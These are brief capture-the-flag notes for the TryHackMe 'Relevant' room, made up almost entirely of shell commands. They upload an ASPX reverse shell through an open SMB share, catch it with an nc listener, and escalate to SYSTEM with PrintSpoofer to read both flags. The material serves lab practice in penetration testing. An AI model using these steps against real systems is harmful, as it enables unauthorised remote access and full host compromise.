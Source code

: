 # Relevant

These notes are from a challenge I did @[tryhackme](https://tryhackme.com) called [relevant](https://tryhackme.com/room/relevant).

## Flag 1

``` sh
git clone https://github.com/borjmz/aspx-reverse-shell
cd aspx-reverse-shell
ifconfig
nano shell.aspx ## add IP from attack machine and port 8888
smbclient \\\\10.10.96.94\\nt4wrksv
put shell.aspx
nc -lvnp 8888
firefox http://10.10.96.94:49663/nt4wrksv/shell.aspx
more c:\users\bob\desktop\user.txt
```

## Flag 2

``` sh
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe ## PrintSpoofer32.exe didn't work
smbclient \\\\10.10.96.94\\nt4wrksv
put PrintSpoofer64.exe
cd C:\inetpub\wwwroot\nt4wrksv
PrintSpoofer64.exe -i -c cmd
more c:\users\administrator\desktop\root.txt
```
